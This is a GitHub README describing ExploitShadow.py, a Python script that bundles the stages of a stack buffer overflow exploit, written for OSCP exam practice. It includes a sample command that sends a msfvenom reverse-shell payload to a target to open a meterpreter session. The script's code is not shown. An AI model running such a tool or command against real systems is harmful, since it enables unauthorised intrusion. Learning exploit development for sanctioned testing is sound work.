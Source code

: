 # OffensiveTools
Some offensive tools that I am playing around with

----- ExploitShadow.py -----

I was trying to save some time on my OSCP exam and decided to build most of the exploit dev stages into one single python script where you can choose the mode based on where you are in the process. The only other thing you might need to configure that was not in the instructions is the way the "maliciousbuffer" variables get crafted within each mode, based on the application you're attacking; I'll leave that for you to decide, because it's ridiculously easy :)

The idea is you should have your msfconsole up and exploit/multi/handler set to use whatever payload you configured in ExploitShadow, then to get your shell you will use mode 4 like this:

./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.10 9999

In the above example, the argument "4" is the mode I am using to send the final payload to get a meterpreter session. I initially crashed the program with mode 1, then found that 2006 is the number of bytes offset to the EIP overwrite (found via modes 2 and 5), then checked for bad characters with mode 3 (00, 0a, 0d are there by default), then send the final payload with mode 4. The 0x11223344 is the theoretical memory location of a "jmp esp" command, which would hit the second nopsled directly after the EIP overwrite and continue onto the shellcode. The 10.0.0.1 and 443 are the LHOST/LPORT information fed into msfvenom. The 10.0.0.10 and 9999 are the IP address of the remote server and port we are attacking.

Honestly, the coolest part about this is the fact that it gives you a date/time stamp of when the payload is sent at the very end, because we are pentesters and the report is what matters to the client, right???
